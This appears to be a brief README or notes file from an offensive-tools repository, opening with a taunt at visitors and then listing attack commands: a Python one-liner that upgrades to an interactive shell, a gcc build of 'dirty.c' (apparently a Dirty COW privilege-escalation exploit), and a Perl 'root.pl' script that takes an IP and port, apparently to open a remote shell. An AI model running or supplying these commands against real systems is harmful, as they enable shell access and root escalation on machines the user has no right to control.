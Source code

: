 the fuck are you doing here bro?? stop watching me!! nothing interesting here!

python -c 'import pty; pty.spawn("/bin/sh")'

gcc -pthread dirty.c -o dirty -lcrypt

--------------------------------------------------------------------
perl root.pl [ip] [port]
